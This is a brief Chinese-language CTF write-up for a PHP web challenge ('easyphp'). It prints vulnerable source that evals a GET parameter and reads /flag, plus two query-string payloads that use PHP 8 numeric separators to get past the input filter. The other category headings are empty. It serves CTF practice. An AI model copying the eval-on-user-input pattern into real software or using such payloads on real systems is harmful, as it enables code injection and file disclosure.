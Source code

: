 
# web
### easyphp

```![hint]
php8的新特性
```

源码

```php
<?php
highlight_file(__FILE__);
$num = $_GET['num'];
if(is_string($num) && strlen($num) < 5 && strpos($num,'111') === false && strpos($num,'0') === false && eval("return 111===${num};")){
    readfile('/flag');
}
```

payload

```
?num=1_11
?num=1|1
```

# reverse

# pwn

# crypto

# Misc


---
## *相关wp*




2023-05-18   19:52